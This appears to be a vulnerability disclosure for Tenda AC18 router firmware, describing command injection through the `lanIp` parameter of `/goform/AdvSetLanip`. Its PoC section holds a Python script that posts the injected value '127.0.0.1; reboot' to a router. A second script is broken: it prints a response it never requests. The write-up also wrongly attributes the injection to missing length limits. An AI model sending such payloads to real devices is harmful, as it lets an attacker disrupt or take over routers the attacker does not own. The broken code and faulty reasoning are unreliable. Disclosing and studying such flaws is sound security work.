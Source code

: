## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a command injection vulnerability in the `/goform/AdvSetLanip` url. The `v17` variable receives the `lanIp` parameter from a POST request and is stored in the configuration item named `lan.ip` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_181207.png)

`lan.ip` configuration item can  be retrieved through the GetValue function in the `/goform/telnet` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to command injection.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_181521.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetLanip"
payload = "127.0.0.1; reboot"

data = {"lanIp":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/telnet"

print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)